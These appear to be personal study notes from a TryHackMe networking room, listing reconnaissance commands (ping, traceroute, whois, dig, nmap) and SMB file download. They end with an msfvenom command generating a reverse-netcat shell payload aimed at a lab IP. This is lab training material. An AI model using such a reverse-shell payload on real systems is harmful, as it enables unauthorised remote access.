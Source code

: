 #networking #hacking #tryhackme

ping
traceroute (linux)
tracert (windows)
whois - to know more about the domain business information
dig - Dig allows us to manually query recursive DNS servers of our choice for information about domains:
`dig <domain> @<dns-server-ip>`

nmap - tool for mapping the network
SMB - Good for access to file system


# SMB
download file
```
get <filename> <output-file-name>
get "Working From Home Information.txt" test
```


skidy
8012
10.10.12.146

A way to know if the shell is running is to start a tcpdump on local machine and ping it
sudo tcpdump ip proto \\icmp -i eth0
`msfvenom -p cmd/unix/reverse_netcat lhost=10.10.232.189 lport=4444 R`
